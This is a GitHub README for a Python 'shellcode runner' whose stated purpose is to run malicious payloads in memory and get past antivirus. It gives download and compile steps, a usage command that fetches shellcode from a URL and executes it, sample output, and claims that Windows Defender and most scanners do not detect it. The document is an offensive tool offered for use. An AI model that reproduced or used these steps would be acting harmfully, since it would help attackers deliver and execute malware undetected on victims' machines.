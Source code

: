 # buffshark-shellcode-runner

## Python Shellcode Runner to execute malicious payload and bypass AV
This script utilizes mmap(for linux) and win32 api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

## Installation and Compiling
1. Download the repo: `git clone https://github.com/momo1239/buffshark-shellcode-runner`
2. Move directory: `cd buffshark-shellcode-runner/`

```
└─# python3 buffshark.py -h                                       
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
usage: buffshark.py [-h] -u  -a

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -u , --url            URL to raw shellcode file
  -a , --architecture   Choose OS
  ```
                                     
4. Optional: Install pyinstaller to compile to windows executable: `pip install pyinstaller`
5. Optional: Compile: `pyinstaller -F buffshark.py`

## Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`

```
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
[+] Downloading shellcode...
[+] 49 Bytes Downloaded!
[+] Running shellcode in memory...
README.md  antiscan.PNG  antiscanres.PNG  buffshark.exe  buffshark.py  shell.bin  shellcode
```

## AV Scan
As of 11/22/2021, Windows Defender does not flag this shellcode runner.

1/26 AV has flagged buffshark on antiscan.me

![image](antiscanres.PNG)


![image](antiscan.PNG)
